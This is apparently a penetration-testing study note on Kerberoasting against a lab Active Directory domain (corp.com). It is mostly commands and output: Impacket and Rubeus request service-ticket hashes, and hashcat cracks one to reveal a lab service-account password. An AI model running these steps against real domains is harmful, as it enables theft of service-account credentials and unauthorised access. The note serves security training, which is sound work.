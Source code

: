 # Kerberoasting



## Recap

When a user wants to access a resource (by it's service principal name (SPN), the client requests a service ticket that is generated by the Domain Controller.



## Kerberoasting

When requesting a service ticket from the Domain Controller, no checks are performed to see if the user has permissions ot access the resource. These checks are formed as a secondary step.

If we know the SPN we want to target, we can request the ticket directly from the Domain Controller.

_**Kerberoasting is when we request the ticket directly and decrypt with brute force or guessing.**_



## Kerberoasting - Impacket-GetNPUsers

```shell-session
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
HTTP/web04.corp.com:80  iis_service            2022-09-07 08:38:43.411468  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427...39d514241eec...
```

## Cracking with Hashcat

```shell-session
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1
...
a96a7e6e29aa173b401935f8f3a476cdbcca8f132e6cc8349dcc88fcd26854e334a2856c009bc76e4e24372c4db4d7f41a8be56e1b6a912c44dd2590522934b:Strawberry1
...
```



## Kerberoasting from Windows

We can use Rubeus on Windows to perform Kerberoasting.

```powershell
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```



### Cracking with Hashcat

```shell-session
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
```

\
